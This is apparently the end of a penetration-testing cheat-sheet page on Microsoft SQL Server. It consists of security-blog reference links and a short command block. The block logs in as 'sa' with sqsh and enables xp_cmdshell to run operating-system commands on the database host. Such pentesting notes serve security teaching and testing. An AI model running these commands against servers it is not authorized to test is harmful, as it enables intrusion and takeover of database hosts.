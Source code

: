 - [https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/](https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/)
- [https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)
- [https://mayfly277.github.io/posts/GOADv2-pwning-part12/](https://mayfly277.github.io/posts/GOADv2-pwning-part12/)
- [https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)


- [https://stackoverflow.com/questions/18866881/how-to-get-the-list-of-all-database-users](https://stackoverflow.com/questions/18866881/how-to-get-the-list-of-all-database-users)
- [https://www.mssqltips.com/sqlservertip/6828/sql-server-login-user-permissions-fn-my-permissions/](https://www.mssqltips.com/sqlservertip/6828/sql-server-login-user-permissions-fn-my-permissions/)
- [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
- [https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/)
- [https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/)
- [https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/](https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/)
- [https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)
- [https://mayfly277.github.io/posts/GOADv2-pwning-part12/](https://mayfly277.github.io/posts/GOADv2-pwning-part12/)
- [https://exploit7-tr.translate.goog/posts/sqlserver/?\_x_tr_sl=es&\_x_tr_tl=en&\_x_tr_hl=en&\_x_tr_pto=wapp](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)

## HackTricks Automatic Commands
```
Protocol_Name: MSSQL    #Protocol Abbreviation if there is one.
Port_Number:  1433     #Comma separated if there is more than one.
Protocol_Description: Microsoft SQL Server         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for MSSQL
Note: |
Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).

#sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G

###the goal is to get xp_cmdshell working###
1. try and see if it works
xp_cmdshell `whoami`
go

2. try to turn component back on
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell `whoami`
go

```